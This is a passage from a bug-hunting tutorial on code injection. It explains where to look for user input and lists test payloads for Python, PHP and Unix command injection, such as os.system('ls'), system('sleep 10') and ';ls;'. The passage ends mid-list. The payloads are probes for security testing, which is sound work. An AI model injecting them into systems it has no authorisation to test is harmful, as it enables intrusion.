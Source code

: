 ## Step 2: Identify Suspicious User Input Locations

When hunting for code injections, take note of every ***direct user-input location***, including `URL parameters`, `HTTP headers`, `body parameters`, and `file
uploads`. Sometimes applications parse user-supplied files and concatenate their contents unsafely into executed code, so any input that is eventually
passed into commands is something you should look out for.

## Step 3: Submit Test Payloads

### Python payloads

This command is designed to print the string RCE test! if Python execution succeeds:

```python
print("RCE test!")
```

This command prints the result of the system command ls:

```python
"__import__('os').system('ls')"
```

This command delays the response for 10 seconds:

```python
"__import__('os').system('sleep 10')"
```

### PHP payloads

This command is designed to print the local PHP configuration information if execution succeeds:

```php
phpinfo();
```

This command prints the result of the system command ls:

```php
<?php system("ls");?>
```

This command delays the response for 10 seconds:

```php
<?php system("sleep 10");?>
```

### Unix payloads

This command prints the result of the system command ls:

```php
;ls;
```

These commands delay the response for 10 seconds:
